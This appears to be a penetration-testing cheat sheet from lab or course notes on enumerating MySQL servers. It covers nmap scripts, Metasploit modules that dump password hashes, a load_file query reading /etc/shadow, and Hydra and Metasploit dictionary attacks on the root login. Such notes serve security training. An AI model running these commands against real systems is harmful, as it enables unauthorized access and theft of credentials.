 # Enumeration: MySQL
> MySQL is usually found on some flavor of Linux. Database software very common in many web sites, especially in enterprise systems. It's also very often misconfigured and therefore vulnerable.

- Default MySQL Port: `3306`

## Contents
- [Nmap Scripts](#nmap-scripts)
  - [Default Scripts](#default-scripts)
  - [mysql-empty-password](#mysql-empty-password)
  - [mysql-info](#mysql-info)
  - [mysql-users](#mysql-users)
  - [mysql-databases](#mysql-databases)
  - [mysql-audit](#mysql-audit)
  - [mysql-dump-hashes](#mysql-dump-hashes)
  - [mysql-query](#mysql-query)
- [MetaSploit](#metasploit)
  - [mysql_writable_dirs](#mysql_writable_dirs)
  - [mysql_hashdump](#mysql_hashdump)
- [MySQL Commands](#mysql-commands)
  - [Initial Queries](#initial-queries)
  - [Filesystem Access](#filesystem-access)
- [Dictionary Attacks](#dictionary-attacks)
  - [MetaSploit](#metasploit)
  - [Hydra](#hydra)

## Nmap Scripts

### Default Scripts
> Start wide and general, then focus on things your find. Start with default scripts.
```
nmap -sV -sC -p 3306 [target ip]
```

### mysql-empty-password
> This will look for accounts that don't require a password Checks for MySQL servers with an empty password for root or anonymous.
```
nmap -sV -p 3306 --script mysql-empty-password [target ip]
```

### mysql-info
> More information on the db itself If you see "Interactive Client," that's interesting. 
```
nmap -sV -p 3306 --script mysql-info[target ip]
```

### mysql-users
> Should provide you with a list of users on the db system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-users --script-args "mysqluser='root',mysqlpass=''" [target ip]
```

### mysql-databases
> Should provide you with a list of databases on the system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-databases --script-args "mysqluser='root',mysqlpass=''" [target ip]
```
- You get a mess of information.  Look for (most useful):  `datadir: /var/lib/mysql`
- That tells you were the variables are stored (this has potential uses)

### mysql-audit
```
nmap -sV -p 3306 --script mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" [target ip]
```
- NOTE: "Do not grant GRANT privileges to non Admin users => PASS" (that's good security but bad for us)
- Three args are required: [documentation](https://nmap.org/nsedoc/scripts/mysql-audit.html)
  - mysql-audit.username='root'
  - mysql-audit.password='foobar'
  - mysql-audit.filename='nselib/data/mysql-cis.audit'  [usually in /usr/share/nmap/]

### mysql-dump-hashes
> Should get all the hashes (just like with the msf scan below)
```
nmap -sV -p 3306 --script mysql-dump-hashes --script-args "username='root',password=''" [target ip]
```

### mysql-query
> Run an SQL query via an nmap script
```
nmap -sV -p 3306 --script mysql-query --script-args "query='select count(*) from books.authors;',username='root',password=''" [target ip]
```
- NOTE: Syntax of SQL Count() function...
```
SELECT COUNT(expression)
FROM table
WHERE condition;
```
- *Expression* is the parameter where you specify which values you want to count. It can be a field or string type value.
- *Table* is the table you use as a source to fetch records. You need to hyave at least one table.
- *WHERE* is an optional condition for selecting records from the table. 

## MetaSploit
> If you are not very familiar with SQL, you can use the MSF as a crutch.

### mysql_writable_dirs
```
> use auxiliary/scanner/mysql/mysql_writable_dirs
> options
> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
  # tab completion is your friend
> setg rhosts [target ip]
  # setg is global so you don't have to keep setting rhosts if you're going to be hammering on the same ip all the time. Sets it for the current session only, but for the whole session.
> set verbose false
  # This is found in the advanced options section ( > advanced )
> set password ""
  # Sets to null
> run
```
- Outputting these kinds of things to a file can be a lot easier to parse
- Find writable dirs, etc.  (tmp and root are the only writable dirs on this lesson)
- NOTE: you found writable dirs in the target FILESYSTEM (not in the database), and you found them by scanning the database.

### mysql_hashdump
```
> use auxiliary/scanner/mysql/mysql_hashdump
> options
  # if you use setg for rhosts, it should already be set
> set username root
> set password ""
> run
```
- You just might get a whole bundle of hashs you can add to our list of enumerated goodies

## MySQL Commands

### Initial Queries
```
mysql -h [target ip] -u root
```
- This is a mysql command, the `-h` is for the host, `-u` is username
- If that lets you login... it's horribly misconfigured and more than vulnerable.
- At the `MySQL [(none)]>` prompt:

```
show databases;
  # NOTE: requires semicolon at the end
  # This will list out all the databases out there on the server
  # Choose one and look at it... done with "use [database]"
use [database];
show tables;
describe [table name or databaseName.tableName];
use books;
  # This drops us into the books db
select count(*) from authors;
  # This gives us a count of authors in the db
  # If you want to see everything from db...
select * from authors
  # Lists out all the info in authors
help
  # This will give you a quick list of things you can do, syntax, etc.
```

### Filesystem Access
> Let's see if we have access to files on the target machine... 
```
mysql -h [target ip] -u root
```
- At the `MySQL [(none)]>` prompt:
```
> select load_file("/etc/shadow");
```
- You may get the full shadow file...
- The [/etc/shadow](https://www.cyberciti.biz/faq/understanding-etcshadow-file/) file is a text file that contains information about the system’s users’ passwords.
- The [/etc/passwd](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) file contains a list of valid users on the target system

## Dictionary Attacks

### MetaSploit
> module to brute-force a login
```
> use auxiliary/scanner/mysql/mysql_login
> set rhosts [target ip]
> set pass_file /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt
> set verbose false
> set stop_on_success true
> set username root
> options (check it to make sure)
> run (or exploit)
```

### [Hydra](../hydra.md)
> Should give you the same result as msf above.
```
hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt [target ip] mysql
```


